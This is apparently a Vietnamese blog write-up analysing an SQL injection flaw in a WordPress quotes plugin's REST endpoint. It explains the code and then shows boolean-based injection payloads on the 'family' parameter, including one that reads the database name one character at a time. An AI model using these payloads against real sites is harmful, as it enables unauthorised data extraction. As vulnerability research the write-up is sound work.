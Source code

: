 Hàm khởi tạo của class `Quotes_Rest_Route` sử dụng `add_action(hook_name, callback)` với `hook_name` là `rest_api_init` để đăng ký các endpoint tùy chỉnh với REST API System của WordPress

Callback `rest_api_init` sử dụng `register_rest_route` nhiều lần để tạo các endpoint dưới namespace `layart/v1`

`rest_route_callback_font_variants` là callback của endpoint `/wp-json/layart/v1/font-variants?family=family_name`

`$family` mặc định là `Shadows Into Light` nếu không được truyền trong param.

## Exploit

### Detect SQLi

Ta thử kỹ thuật **Boolean-based SQL Injection** để kiểm tra xem tham số family có dễ bị chèn lệnh SQL hay không.

**True request**:
{{< figure src="true_req.png" caption="True request" alt="True request" >}}

Khi đó, câu query thực thi sẽ trở thành:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+'1'='1'"
```

Điều kiện `AND '1'='1'` luôn đúng => query hợp lệ, trả về dữ liệu bình thường.

**False request**:
{{< figure src="false_req.png" caption="False request" alt="False request" >}}

Khi đó, câu query thực thi sẽ trở thành:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+'1'='2'"
```

Điều kiện `AND '1'='2'` luôn sai => query không khớp => trả về `[]`.

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì toàn bộ data đều dump được.

> Database name được tôi đặt tên là **wordpress** nên kí tự đầu tiên là `w`

{{< figure src="first_letter.png" caption="First letter" alt="First letter" >}}

Response trả về dữ liệu bình thường => kí tự đầu tiên là `w`

Khi đó, câu query thực thi sẽ trở thành:

```sql
SELECT * FROM wp_easy-quotes-families WHERE family='Roboto'+AND+SUBSTRING(DATABASE(),1,1)='w'"
```

## Conclusion
